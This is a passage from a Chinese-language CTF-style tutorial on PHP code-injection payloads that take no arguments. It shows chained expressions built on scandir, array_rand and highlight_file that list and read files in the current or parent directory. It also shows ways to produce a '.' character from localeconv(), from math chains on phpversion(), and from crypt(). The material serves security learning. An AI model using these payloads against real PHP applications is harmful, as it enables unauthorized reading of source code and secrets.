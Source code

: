 ### payload\_5-scandir()

读取文件

读文件有好多操作，

```plain
当前目录：highlight_file(array_rand(array_flip(scandir(getcwd()))));
上级目录文件：highlight_file(array_rand(array_flip(scandir(dirname(chdir(dirname(getcwd())))))));
以上两个都是随机获取的其实，看脸。
```

可以配合 数组的指针，倒序，等各种方式找到我们的文件。

-   **getcwd()**：取得当前工作目录，成功则返回当前工作目录，失败返回 **`FALSE`**。
-   **dirname()**：返回路径中的目录部分，返回 path 的父目录。 如果在 `path` 中没有斜线，则返回一个点（’*.*‘），表示当前目录。否则返回的是把 `path` 中结尾的 `/component`（最后一个斜线以及后面部分）去掉之后的字符串(也就是上级目录的文件路径)。
-   **chdir()**：改变目录，成功时返回 **`TRUE`**， 或者在失败时返回 **`FALSE`**。
-   **scandir()**：列出指定路径中的文件和目录。成功则返回包含有文件名的数组，如果失败则返回 **`FALSE`**。如果 `directory` 不是个目录，则返回布尔值 **`FALSE`** 并生成一条 **`E_WARNING`** 级的错误。
-   **array\_flip()**：交换数组中的键和值，成功时返回交换后的数组，如果失败返回 **`NULL`**。
-   **array\_rand()**：从数组中随机取出一个或多个单元，如果只取出一个(默认为1)，**array\_rand()** 返回随机单元的键名。 否则就返回包含随机键名的数组。 完成后，就可以根据随机的键获取数组的随机值。

**array\_flip()**和**array\_rand()**配合使用可随机返回当前目录下的文件名

**dirname(chdir(dirname()))**配合切换文件路径

#### `.`

##### **current(localeconv())**

-   **localeconv()**：返回一包含本地数字及货币格式信息的数组。而数组第一项就是 `.`

##### **phpversion()**

-   `phpversion()`返回php版本，如`7.3.5`
-   `floor(phpversion())`返回`7`
-   `sqrt(floor(phpversion()))`返回`2.6457513110646`
-   `tan(floor(sqrt(floor(phpversion()))))`返回`-2.1850398632615`
-   `cosh(tan(floor(sqrt(floor(phpversion())))))`返回`4.5017381103491`
-   `sinh(cosh(tan(floor(sqrt(floor(phpversion()))))))`返回`45.081318677156`
-   `ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion())))))))`返回`46`
-   `chr(ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion()))))))))`返回`.`
-   `var_dump(scandir(chr(ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion()))))))))))`扫描当前目录
-   `next(scandir(chr(ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion()))))))))))`返回`..`

**floor()**：舍去法取整，**sqrt()**：平方根，**tan()**：正切值，**cosh()**：双曲余弦，**sinh()**：双曲正弦，**ceil()**：进一法取整

##### **crypt()**

```plain
chr(ord(hebrevc(crypt(phpversion()))))`返回`.
```

-   `hebrevc(crypt(arg))`可以随机生成一个hash值 第一个字符随机是 $(大概率) 或者 .(小概率) 然后通过ord chr只取第一个字符

**crypt()**：单向字符串散列，返回散列后的字符串或一个少于 13 字符的字符串，从而保证在失败时与盐值区分开来。
